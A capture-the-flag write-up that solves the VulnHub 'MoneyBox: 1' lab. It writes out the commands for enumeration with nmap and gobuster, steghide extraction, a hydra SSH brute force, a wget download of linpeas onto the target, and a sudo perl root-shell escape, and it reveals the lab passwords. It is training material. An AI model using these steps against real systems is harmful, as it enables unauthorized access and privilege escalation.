

# Moneybox CTF Write-up

CTF link: 

[MoneyBox: 1](https://www.vulnhub.com/entry/moneybox-1,653/)

- We launched target machine and our kali and opened terminal as root.
- Check ifconfig and grab your ip address and start a scan.

> netdiscover -r xx.xx.xx.0/24
> 
- Pick the ip address and copy it.

We have to check ip for which ports runs which apps.

- First we check nmap

> nmap -sV -sC xx.x.x.x
> 

  

We see that our ip runs 3 ports: ftp, ssh,http.

We should check if there is a website and what we can find there. As usual page-source should be checked.

  

Also checked page-source, there is nothing there. So we should look for hidden directories.

> gobuster dir -u [http://192.168.1.6/](http://192.168.1.6/) -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
> 

  

Check this directories, don’t forget to check page-sources.

  

  

We check secret directory and its page-source given.

  

We found a secret key, probably a password. We had ftp and ssh port, we can try something. We should try to access ftp server as anonymous with no password first. Maybe we can find something.

  

We found a image file, and download it.

> get trytofind.jpg
> 

Maybe there is a hidden message in this image, because why not? We are trying everything.

> steghide extract -sf trytofind.jpg
> 

  

We entered found key “3xtr4ctd4t4” as passphrase and got a something. Check data.txt.

  

Password is weak and renu is the name. Let’s check ssh if we can find renu’s password with brute-force attack.

> hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.6
> 

  

We found renu’s password: “987654321”. Let’s enter ssh with these.

  

We found the first flag. Look around.

  

We found second flag. 

  

We can not cd root, we have to be root. Other user lily maybe can, but password? We can look at linpeas. Download it to /tmp/ directory.

> wget [https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
> 

  

When we check all data we see that htere is authorized keys. Renu can login ssh as lily.

  

> ssh lily@192.168.1.6
> 

  

We login as lily and lily can run /usr/bin/perl as root. So we can get the shell with this. 

> Source: [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)
> 

> `sudo perl -e 'exec "/bin/sh";'`
> 

  

Now we can cd root.

  

All done.